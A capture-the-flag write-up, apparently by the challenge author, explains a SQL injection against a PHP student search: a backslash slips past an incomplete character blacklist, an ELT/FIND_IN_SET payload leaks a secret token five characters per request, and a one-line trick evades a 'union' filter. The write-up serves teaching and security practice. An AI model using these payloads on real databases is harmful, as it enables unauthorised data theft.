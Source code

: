 ## Writeup
### Intended solution
The give patch shows that some security mechanism were added. One of them was a blacklist that filters some chracters in the search string:
```php
$blacklist = array('\'', '"', '/', '*');
return str_replace($blacklist, '', $input);
```
But this sanitize function is incomplete and doesn't filter the backslash character, which allows us to escape the last single quote where the search query is inserted, like so:
```MySQL
WHERE first_name='injection here and escape last quote like so # \'
OR last_name='injection here and escape last quote like so \'
ORDER BY id ASC LIMIT 5
```

This allows us to do a SQL injection, but the problem is that we couldn't use 'union' because it is being detected and and exception is thrown (or not, see the unintended solution section).
Another limitation is the 'LIMIT 5' at the end, which we can't bypass because there is a newline between the injection and the limit statement and we can only perform single line comments.

Furthermore, the patch also introduces as token which changes after every 10 requests, that means that we have to perform an injection that allows us to extract the token in less than 10 requests.
It was also possibel to retrieve a database dump from the students, by navigating to the panels section (it was hidden as a HTML comment), this dump will be usful for the final injection query.

How do we extract a 40 chracter string using the above injection in less than 10 tries?!

The idea is to create a mapping between user id (given as a search result) and a character in the string as well as the string position. For example, when the student with ID 1 is returned, that means that we have chracter 'a' at the first posiiton in the string, if student with ID 20 is returned that would mean that the second position in the string is an 'a'. This allows us to read 5 chracters at a time (with enough students to create the mapping).

This could be the mapping for the first position in the string, so if one of these IDs is returned we know which chracter is at the first position.
| 1 | 3 | 4 | 6 | 7 | 10 | 11 | 13 | 14 | 16 | 18 | 19 | 20 | 21 | 22 | 23|
|---|---|---|---|---|----|----|----|----|----|----|----|----|----|----|---|
| a | b | c | d | e | f  | 0  | 1  | 2  | 3  | 4  | 5  | 6  | 7  | 8  | 9 |

To do this kind of mapping in MySQL we can use the functions **ELT** and **FIND_IN_SET**

So our injection will look like this:
```
 OR id IN (<mapping right here>)
```

Here is what the mapping looks like from my exploit (for the first 5 chracters of the token):
```
 OR id IN (
 (select elt((select find_in_set((select substring(token, 1, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),1,2,3,4,5,6,7,8,9,11,12,14,16,17,20,24)),
 (select elt((select find_in_set((select substring(token, 2, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),25,26,27,31,32,33,34,35,36,37,38,39,40,41,42,43)),
 (select elt((select find_in_set((select substring(token, 3, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),44,45,46,47,48,49,50,51,52,53,55,56,57,58,59,60)),
 (select elt((select find_in_set((select substring(token, 4, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),61,62,63,64,66,67,69,70,71,72,73,74,75,76,77,78)),
 (select elt((select find_in_set((select substring(token, 5, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),79,80,81,82,83,84,85,89,90,91,92,93,94,95,96,97))
 ) # \
```

The above statement is one request and returns 5 chracters, we can repeat that 7 more times to get the rest of the 35 chracters.

### Unintended solution
Unfortunately there is also an unintended solution (which I didn't know about that that could actually work) which bypasses the union check.
It can be bypassed with some MySQL madness (I have no idea why this even works), which I didn't know about even existed, so something new is learned, but it made the challenge easier than expected :/

```
or 1=6e0union select 1,2,3 #\
```

I hope you still had fun working on it.
